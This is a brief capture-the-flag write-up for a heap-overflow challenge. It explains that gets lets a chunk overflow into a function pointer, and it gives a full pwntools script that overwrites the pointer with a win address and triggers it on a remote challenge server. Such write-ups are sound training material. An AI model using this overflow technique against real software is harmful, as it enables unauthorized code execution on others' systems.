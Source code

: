 # Binary Exploitation is Ez

- Heap overflow because of call to gets.
- Overwrite function pointer and call winwin.

#### Exploit
```python
#!/usr/bin/python3
from pwn import *

####Utils
def newmeme(size,data):
	io.sendlineafter("Choice: ","1")
	io.sendlineafter("size: ",str(size))
	io.sendafter("content: ",data)

def editmeme(idx,data):
	io.sendlineafter("Choice: ","2")
	io.sendlineafter("Index: ",str(idx))
	io.sendafter("content: ",data)

def printmeme(idx):
	io.sendlineafter("Choice: ","3")
	io.sendlineafter("Index: ",str(idx))

####Addr
win = 0x4014a0

####Exploit
#io = process(["./ez"])
io = remote("128.199.157.172",23170)
newmeme(0x18,"HK\n") #0
newmeme(0x18,"HK\n") #1
editmeme(0,b"A"*0x18+p64(0x21)+p64(win)+b"\n")
printmeme(1)
io.interactive()
```
